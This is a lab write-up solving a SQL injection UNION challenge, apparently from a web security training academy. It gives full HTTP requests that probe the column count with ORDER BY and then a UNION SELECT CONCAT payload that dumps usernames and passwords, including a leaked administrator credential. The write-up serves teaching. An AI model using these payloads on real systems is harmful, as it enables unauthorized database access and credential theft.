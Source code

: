 # Lab 06: SQL injection UNION attack, retrieving multiple values in a single column

## Description

 This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a `UNION` attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an SQL injection `UNION` attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user. 

---

## Solution


The product category filter is the HTTP query parameter `category`. Since this attack involves reading data from a different database table, we will leverage the `UNION` operator.

The first step is to determine how many columns are in the result from the original `SELECT` statement. Leverage the iterative `ORDER BY` method.

Both `ORDER BY 1` and `ORDER BY 2` return an HTTP 200.

```http
GET /filter?category=Gifts'+ORDER+BY+1-- HTTP/1.1
Host: acd61f941e70e32b80c4134c008c0015.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 4417
```

```http
GET /filter?category=Gifts'+ORDER+BY+2-- HTTP/1.1
Host: acd61f941e70e32b80c4134c008c0015.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 4417
```

However, an `ORDER BY 3` returns an HTTP 500 error.

```http
GET /filter?category=Gifts'+ORDER+BY+3-- HTTP/1.1
Host: acd61f941e70e32b80c4134c008c0015.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

```http
HTTP/1.1 500 Internal Server Error
Connection: close
Content-Length: 21

Internal Server Error
```

This indicates that the original `SELECT` statement returns a 2-column table.

Now we need to determine the data types of the columns. By inspecting the ordering of the table entries when we use `ORDER BY 1` and `ORDER BY 2`, it appears that a product ID number is at index 1 and the name of the product is at index 2. These columns appear to be of type integer and string, respectively. This can be confirmed by iteratively injecting `UNION SELECT NULL` statements.

We are trying to read two (presumably) string columns from the `users` table (`username` and `password)`, but we only have one string column in the results of the original `SELECT` statement. We could use two separate injections: one to retrieve the usernames and one to retrieve the passwords. Alternatively, we can use string concatenation to get both the username and password in a single request. The backend database system appears to be MySQL, whose concatenation operator is the [CONCAT() function](https://www.w3resource.com/mysql/string-functions/mysql-concat-function.php).

Leveraging concatenation, the final injection is:

```http
GET /filter?category=Gifts'+UNION+SELECT+NULL,CONCAT(username,':',password)+FROM+users-- HTTP/1.1
Host: acd61f941e70e32b80c4134c008c0015.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

which renders in the `administrator` credentials.

```html
...
<tr>
	<th>administrator:7pgy2xrgn8ew68ga59s9</th>
</tr>
...
```